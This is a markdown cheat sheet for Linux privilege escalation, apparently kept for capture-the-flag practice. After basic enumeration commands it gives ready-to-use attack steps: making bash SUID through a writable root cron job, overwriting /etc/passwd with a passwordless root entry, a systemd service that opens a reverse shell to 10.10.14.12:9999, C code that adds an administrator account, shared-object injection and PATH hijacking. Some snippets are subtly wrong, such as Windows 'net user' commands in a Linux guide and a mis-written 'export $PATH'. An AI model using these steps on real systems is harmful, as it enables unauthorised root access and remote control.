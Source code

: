## Good Reads
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://github.com/janithmalinga/PayloadsAllTheThings
https://book.hacktricks.xyz/linux-unix/privilege-escalation
```
## Manual Enumeration

## Enumerate User Info

### Logged in user
```
id
whoami
pwd
```

### Find OS version
```
cat /etc/*-release
uname -a
lsb_release -a
```

### Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
### curently running processes
```
ps aux
```
### What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Enumerate Network

### Find IP and associated IPs
```
ifconfig
ip a
```

### Open Ports
```
netstat -ano
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## Automated Enumeration
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## Exploiting scheduled tasks

### User editable cronjobs
```
crontab -l
cat /etc/crontab
```

### Application based cron jobs
```
ls -all /etc/cron.d
```
### if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

### Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

### Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / -type f -perm -04000 -ls 2> /dev/null
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

### systemctl has SUID set
Create root.service file
```
[Unit]
Description=get root privilege

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
Transfer it to CTF and runfollowing command
```
/bin/systemctl enable /home/pepper/root.service
```

### If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```

### If you found a shared object, create this c file to inject
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

## Environment variable injection

### If you find a file without full path and having SIUD bit set, create this c file,
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

### Set environment path to /tmp
```
export $PATH=/tmp:$PATH
```
